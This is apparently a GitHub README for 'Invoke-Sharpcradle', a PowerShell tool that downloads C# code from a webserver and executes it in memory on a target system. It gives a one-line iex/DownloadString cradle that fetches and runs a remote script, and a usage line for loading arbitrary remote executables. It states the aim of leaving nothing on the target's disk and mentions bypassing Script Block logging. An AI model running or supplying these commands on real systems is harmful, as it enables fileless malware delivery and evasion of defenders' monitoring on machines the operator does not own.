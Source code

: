 # Invoke-Sharpcradle
Load C# Code from a Webserver straight to memory and execute it there.

All I did here was to take the C# code from https://github.com/anthemtotheego/SharpCradle and convert it into a Powershell script using Add-Type. 

Why? No executable on the target system hard disk. Powershell in memory, C# code in memory. To bypass Script Block logging further precautions have to be taken.

`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/Invoke
-Sharpcradle/master/Invoke-Sharpcradle.ps1')`

`Invoke-Sharpcradle -Uri WebserverURI -Arguments ExecutableArguments`

![alt text](https://raw.githubusercontent.com/SecureThisShit/Invoke-Sharpcradle/master/Invoke-Sharpcradle.png)

